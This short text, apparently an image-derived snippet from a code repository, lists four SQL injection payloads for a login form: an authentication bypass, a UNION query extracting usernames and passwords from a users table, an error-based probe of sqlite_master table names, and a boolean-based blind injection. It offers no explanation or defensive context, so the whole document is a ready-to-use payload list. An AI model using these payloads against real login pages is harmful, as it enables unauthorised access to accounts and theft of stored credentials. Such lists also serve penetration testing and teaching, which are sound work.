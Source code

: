 Authentication Bypass:
Username: ' OR '1'='1
Password: anything

Union-Based Attack:
Username: ' UNION SELECT null, username, password FROM users --
Password: anything

Error-Based Injection:
Username: ' AND 1=CONVERT(int, (SELECT name FROM sqlite_master WHERE type='table')) --
Password: anything

Blind SQL Injection (Boolean-Based):
Username: ' OR (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1' --
Password: anything
